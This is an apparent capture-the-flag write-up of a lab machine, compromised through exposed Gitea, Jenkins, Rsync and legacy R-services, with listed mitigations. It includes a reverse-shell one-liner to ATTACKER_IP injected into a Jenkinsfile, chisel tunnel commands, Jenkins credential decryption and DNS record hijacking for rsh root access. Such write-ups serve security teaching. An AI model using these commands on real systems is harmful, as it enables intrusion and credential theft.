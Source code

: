 
## TL;DR
 Leveraged exposed services (Gitea, Jenkins, Rsync, and legacy R protocols) and weak credential to escalate privileges from initial access to root. Key vulnerabilities included insecure credential storage, DNS misconfigurations, and improper use of `.rhosts` for authentication.  


### Key Vulnerabilities  
1. **Insecure Credential Storage:** Jenkins credentials stored in plaintext/weakly encrypted formats.  
2. **Legacy Service Exposure:** R-services (rsh, rexec) enabled passwordless access via `.rhosts`.  
3. **DNS Misconfiguration:** Publicly modifiable DNS records allowed spoofing critical domains.  
4. **Overprivileged Webhooks:** Jenkins pipeline triggered arbitrary code execution via Gitea.  

### Mitigations  
1. **Secure Jenkins Credentials:** Use Jenkins’ built-in credential manager with strong encryption.  
2. **Disable Legacy Protocols:** Replace R-services with SSH and enforce key-based authentication.  
3. **Harden DNS:** Restrict DNS modifications and implement DNSSEC.  
4. **Audit Webhooks:** Validate webhook payloads and restrict execution scope.  


## Methodology  

### 1. Enumeration  

#### **Network Scanning**  
An `nmap` scan revealed critical services:  
```bash
22/tcp    - SSH  
53/tcp    - DNS  
512-514/tcp - Legacy R-services (rexec, rlogin, rsh)  
873/tcp   - Rsync  
3000/tcp  - Gitea (Git hosting)  
```

#### **Gitea Exposure (Port 3000)**  
- Discovered a repository at `http://10.10.115.233:3000/buildadm/dev`.  
- Commit history exposed a `Jenkinsfile` and the domain `build.vl`.  

#### **DNS Misconfiguration**  
- `dig a build.vl @10.10.115.233` returned an SOA record pointing to `a.misconfigured.dns.server.invalid`, indicating DNS misconfiguration.  

#### **Rsync Exploitation (Port 873)**  
- Listed accessible shares:  
  ```bash
  rsync -av --list-only rsync://build.vl/
  backups        	backups
  ```
- Downloaded `jenkins.tar.gz` from the `backups` share, containing Jenkins configuration files.  

#### **Jenkins Credential Extraction**  
- Extracted encrypted credentials from `jobs/build/config.xml`:  
  ```xml
  <username>buildadm</username>
  <password>{AQAAABAAAAAQUNBJaKiUQNaRbPI0/VMwB1cmhU/EHt0chpFEMRLZ9v0=}</password>
  ```
- Decrypted credentials using `master.key` and `hudson.util.Secret` files from the Jenkins `secrets/` directory.  
- **Credentials Recovered:** `buildadm:[REDACTED]` (Gitea access).  

---

### 2. Initial Compromise  

#### **Gitea Webhook Abuse**  
- A webhook in the repository (`http://172.18.0.3:8080/gitea-webhook/post`) triggered Jenkins pipeline execution.  
- Modified the `Jenkinsfile` to inject a reverse shell:  
  ```bash
  bash -c 'sh -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1'
  ```
- **Result:** Reverse shell as `buildadm` inside a Docker container.  

#### **User Flag**  
- Located at `/root/user.txt`:  
  ```bash
  <USER_FLAG>
  ```

---

### 3. Lateral Movement  

#### **Docker Escape Analysis**  
- The container lacked networking tools (`ifconfig`, `ip`).  
- Discovered a `.rhosts` file in `/root`:  
  ```bash
  admin.build.vl +  
  intern.build.vl +
  ```

#### **Network Pivoting with Chisel**  
- Established a SOCKS tunnel to map the internal network:  
  - Attacker: `./chisel server -p 8000 --reverse`  
  - Victim: `./chisel client ATTACKER_IP:8000 R:socks`  
- Proxied traffic through `proxychains` to enumerate internal hosts.  

#### **MySQL Database Access**  
- Connected to MySQL as `root` via `proxychains`:  
  ```bash
  proxychains mysql -h build.vl -u root
  ```
- Extracted PowerDNS admin credentials from the `powerdnsadmin` database:  
  ```sql
  SELECT * FROM user WHERE username='admin';  
  -- Password hash: [REDACTED] (bcrypt)
  ```

#### **PowerDNS Takeover**  
- Reset the admin password via hash replacement in the database.  
- Modified DNS records to resolve `admin.build.vl` to the attacker’s IP.  

---

### 4. Privilege Escalation  

#### **Abusing .rhosts**  
- With `admin.build.vl` pointing to the attacker’s IP, `rsh` granted root access:  
  ```bash
  rsh root@build.vl  # No password required due to .rhosts
  ```
- **Result:** Root shell on the host system.  

#### **Root Flag**  
- Located at `/root/root.txt`:  
  ```bash
  <ROOT_FLAG>
  ```

---

